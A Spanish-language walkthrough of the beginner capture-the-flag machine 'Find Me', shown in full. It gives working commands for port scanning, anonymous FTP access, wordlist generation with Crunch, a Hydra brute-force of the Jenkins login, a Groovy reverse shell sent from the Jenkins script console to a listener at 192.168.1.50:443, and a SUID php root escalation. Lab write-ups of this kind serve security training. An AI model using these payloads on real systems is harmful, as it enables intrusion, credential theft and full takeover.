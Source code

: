 ```yaml
---
description: '🔍 Dificultad: Principiante'
---
```


# Find Me

### 🔍 **RECONOCIMIENTO**

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 192.168.1.91
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (12) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, se realiza el comando:

```bash
nmap -p- --open 192.168.1.91 --min-rate 5000 -n
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 21** perteneciente al **servicio FTP, puerto 22** perteneciente al **servicio SSH,** el **puerto 80** perteneciente al **servicio HTTP** y el **puerto 8080** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p21,22,80,8080 -v 192.168.1.91
```

para obtener más información sobre ese puerto específicamente.

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora exploramos el servicio **HTTP**. Ingresamos la IP y nos encontramos la página de por defecto de **Apache**.&#x20;

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Ingresamos la IP pero a través del **puerto 8080** y nos encontramos con el panel de login de **Jenkins**.

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Al realizar el escaneo encontramos que tenemos acceso anónimo a través de FTP por lo que indagaremos si hay algo relevante. Vemos una nota de `ayuda.txt` por lo que nos la descargamos.

```bash
ftp 192.168.1.91
ls
get ayuda.txt
```

Al mostrar el contenido encontramos un usuario llamado **geralt**. Nos da pistas de lo que recuerda por lo que creamos un diccionario con las distintas posibilidades a tavés de **Crunch**.

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```bash
crunch 5 5 -t p@@@a -o diccionario.txt
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Ingresamos el usuario descubierto con una contraseña cualquiera y al inspeccionar la pagina en **Network** cogemos la distinta informacion para realizar el ataque de fuerza bruta.

```bash
hydra -l geralt -P diccionario.txt 192.168.1.91 -s 8080 http-post-form "/j_spring_security_check:j_username=^USER^&j_password=^PASS^&from=&Submit=:c=/login:Invalid username or password" -f -V
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Iniciamos sesión en **Jenkins** con las credenciales.

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Seleccionamos **manage jenkin**s y luego **script console** que nos permite enviar una reverse shell mediante **Groovy** mediante nos ponemos en escucha.

```bash
String host="192.168.1.50";int port=443;String cmd="sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```

```bash
nc -nvlp 443
```

<figure><img src="../../.gitbook/assets/image (751).png" alt=""><figcaption></figcaption></figure>

Hacemos tratamiento de la TTY. Nos cambiamos de usuario a **geralt**.

<figure><img src="../../.gitbook/assets/image (754).png" alt=""><figcaption></figcaption></figure>

### 🔐 PRIVILEGIOS

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar. Requiere contraseña.&#x20;

Buscamos archivos con permisos **SUID**.

```bash
find / -perm -4000 -ls 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (756).png" alt=""><figcaption></figcaption></figure>

Buscamos en la página [GTFObins](https://gtfobins.github.io/gtfobins/php/).

```bash
/usr/bin/php8.2 -r "pcntl_exec('/bin/sh', ['-p']);"
```

<figure><img src="../../.gitbook/assets/image (757).png" alt=""><figcaption></figcaption></figure>

Ya somos **root**.&#x20;

Te deseo mucho éxito en tu búsqueda de las flags! Recuerda prestar atención a cada detalle, examinar los archivos y servicios con detenimiento, y utilizar todas las herramientas disponibles para encontrarlas. La clave para el éxito está en la perseverancia y en no dejar ningún rincón sin explorar. ¡Adelante, hacker! 💻🔍🚀
